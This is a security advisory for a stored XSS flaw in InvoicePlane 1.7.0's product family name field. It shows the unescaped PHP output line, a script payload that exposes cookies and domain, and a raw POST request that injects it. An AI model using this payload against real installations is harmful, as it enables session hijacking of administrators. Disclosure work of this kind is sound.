


# CVE-2026-25594 — Stored XSS via Family Name in InvoicePlane 1.7.0

**Vulnerability:** Stored Cross-Site Scripting (XSS) via Family Name field

**Product:** [InvoicePlane](https://invoiceplane.com)

**Affected Version:** 1.7.0 (and likely prior versions)

**Severity:** Medium

**CVSS 3.1 Score:** 4.8 (`CVSS:3.1/AV:N/AC:L/PR:H/UI:R/S:C/C:L/I:L/A:N`)

**CWE:** CWE-79: Improper Neutralization of Input During Web Page Generation

**Discovered by:** Leonidas Agathos

**Report Date:** 2026-01-31

---

## Description

The `family_name` field in the product family form (`/index.php/families/form`) accepts arbitrary input without sanitization. The value is stored in the database and later rendered unencoded in the product creation/edit page's family dropdown, causing JavaScript execution for any admin who visits the product form.

**Vulnerable file:** `application/modules/products/views/form.php:40`

```php
// Line 40
><?php echo $family->family_name; ?></option>
```

---

## Proof of Concept

**Step 1 — Inject payload into Family Name**

Navigate to `/index.php/families/form` and submit the following as the Family Name:

```
<script>alert('domain:'+document.domain+'cookies:'+document.cookie)</script>
```

**Request:**

```http
POST /index.php/families/form HTTP/1.1
Host: 172.25.0.12
Content-Type: application/x-www-form-urlencoded

_ip_csrf=...&btn_submit=1&is_update=0&family_name=%3Cscript%3Ealert%28document.cookies%29%3C%2Fscript%3E
```



**Step 2 — Trigger XSS**

Navigate to `/index.php/products/form`. The payload fires when the family dropdown renders.



---

## Impact

Any admin visiting the product creation or edit page will have the payload execute in their browser. This enables session hijacking (if cookies are not HttpOnly), CSRF token theft, and actions performed under the victim's identity.

---

## Timeline

| Date | Event |
|------|-------|
| 2026-01-30 | Vulnerability discovered |
| 2026-01-31 | Proof of concept developed |
| 2026-01-31 | Vendor notified |
| 2026-02-04 | Vendor acknowledgment |
| 2026-02-04 | Patch released |
| 2026-02-05 | Public disclosure |

---

## References

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [CVE-2026-25594](https://nvd.nist.gov/vuln/detail/CVE-2026-25594)

---

## Disclaimer

This vulnerability was discovered during independent security research. All information is provided strictly for educational, research, and defensive purposes to assist the vendor and the security community in understanding and remediating the issue. Any malicious use of this information is strictly prohibited.
